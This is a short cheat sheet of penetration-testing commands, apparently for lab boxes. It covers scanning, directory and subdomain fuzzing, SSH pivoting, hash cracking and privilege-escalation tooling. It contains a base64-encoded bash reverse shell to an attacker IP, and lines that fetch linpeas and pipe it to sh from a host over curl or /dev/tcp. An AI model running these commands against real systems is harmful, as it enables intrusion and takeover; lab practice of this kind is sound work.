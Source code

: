 # prep
## Useful commands
sudo nmap -sC -sV -vv -p- 10.10.11.221

## dirs 
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -u domain.name

## subdomains:
gobuster vhost -u http://domain.domain \
-w ~/Downloads/subdomains \
--append-domain -t 50


ffuf -c -ac -w ~/Downloads/subdomains-10000.txt -H 'Host: FUZZ.domain.name' -u http://domainname 

## ssh pivot
ssh -L 1234:localhost:8080 rosa@10.10.11.38 
connect using localhost:1234

python3 -c 'import pty; pty.spawn("/bin/sh")'

base64
echo -n 'bash -i >& /dev/tcp/10.10.16.12/4242 0>&1' | base64 

## SCP
scp user@10.10.11.74:/var/backup/backup.tar.gz .

## leanpeas path
cd /usr/share/peass/
## From public github
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh

## Local network
sudo python3 -m http.server 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim

## Without curl
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim


## hashcat basic
hashcat -m 0 hashes.txt /usr/share/wordlists/rockyou.txt --force


## docker folder - build with dockerfile
sudo docker build -t dockername . 
sudo docker run -it -v $(pwd):/app dockername
